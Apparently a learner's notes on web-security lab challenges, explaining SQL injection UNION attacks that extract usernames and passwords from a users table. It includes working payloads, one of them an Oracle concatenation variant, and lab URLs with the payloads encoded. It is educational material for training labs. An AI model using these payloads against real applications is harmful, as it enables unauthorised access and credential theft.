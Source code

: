 # Using a SQL injection UNION attack to retrieve interesting data
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:

The original query returns two columns, both of which can hold string data.
The injection point is a quoted string within the WHERE clause.
The database contains a table called users with the columns username and password.
In this example, you can retrieve the contents of the users table by submitting the input:

' UNION SELECT username, password FROM users--
In order to perform this attack, you need to know that there is a table called users with two columns called username and password. Without this information, you would have to guess the names of the tables and columns. All modern databases provide ways to examine the database structure, and determine what tables and columns they contain.

## Challenge
Retrieve username and password for administrator and log in as him in Shop.
https://0aff00d004cba3b98170bba400b60010.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20username,%20password%20FROM%20users--


# Retrieving multiple values within a single column
In some cases the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together. You can include a separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

' UNION SELECT username || '~' || password FROM users--
This uses the double-pipe sequence || which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

The results from the query contain all the usernames and passwords, for example:

...
administrator~s3cure
wiener~peter
carlos~montoya
...

## Challenge
Find the username and password using concatination from the categories vulnerable to SQLi in Shop. 
First find the column number and which one holds the strings:
Columns - https://0aed0012040b1d87810be30d008f00b2.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20NULL,NULL--
Strings - https://0aed0012040b1d87810be30d008f00b2.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20NULL,%27abc%27--
Now concatenate the username and password fields from the users table - https://0aed0012040b1d87810be30d008f00b2.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,username||%27~%27||password+FROM+users--
Where the concatination was ``` 'UNION SELECT NULL,username||'~'||password FROM users--```
